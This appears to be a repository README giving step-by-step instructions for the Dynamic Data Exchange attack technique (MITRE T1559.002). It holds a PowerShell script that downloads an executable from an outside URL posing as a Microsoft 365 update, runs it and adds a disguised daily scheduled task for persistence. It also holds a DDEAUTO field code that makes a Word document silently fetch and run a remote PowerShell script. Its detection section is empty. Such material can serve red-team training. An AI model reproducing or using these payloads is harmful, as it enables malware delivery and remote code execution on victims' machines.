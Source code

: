 # [Dynamic Data Exchange](https://attack.mitre.org/techniques/T1559/002/)

## Exploit Syntax: 

1. Create a txt file named `stage2.txt`

    ```sh
    subl ~/cyber_gambit/resources/malware/stage2.txt
    ```
2. Paste in the powershell below.

   ```powershell
   $url = "http://cpuprok.com/en-us/microsoft-365/update"
   $outpath = "$env:USERPROFILE\msiexec.exe"
   iwr -uri $url -outfile $outpath
   start-process -filepath $outpath
   $action = New-ScheduledTaskAction -Execute $outpath
   $trigger = New-ScheduledTaskTrigger -Daily -At 9am
   Register-ScheduledTask -Action $action -Trigger $trigger -Taskname "MSUpdateCheck" -Description "This task grabs Microsoft Official Updates."
   ```
  > NOTE: Any varibles above can be changed out. 
3. Open a Microsoft Word Document

4. Navigate to the tool bar the at top and select the insert tab

   <img src="./Resources/gifs/Insert_Tab.gif" alt="Insert_Tab.gif" width="800">

5. Under Quick Parts dropdown select Field then press ok.

   <img src="/Resources/gifs/Step2_Adding_Object-720p.gif" alt="addingobject" width="500">

6. Right Click toggle field codes and paste the contents below within the `{}` :
    ```powershell 
    { DDEAUTO "C:\\Programs\\Microsoft\\Office\\MSWord.exe\\..\\..\\..\\..\\windows\\system32\\WindowsPowerShell\\v1.0\\powershell.exe -NoP -sta -NonI -W Hidden $e=(New-Object System.Net.WebClient).DownloadString('http://[webserver ip:port]/[saved ps1 file].ps1');powershell $e # " "for security reasons"}
    ```
    > NOTE: Nake sure to set your url and file name 

   <img src="/Resources/gifs/Step3_Adding_DDEAuto-720p.gif" alt="addingobject" width="800">

7. Save the document.

## Detection Method

## Resources    
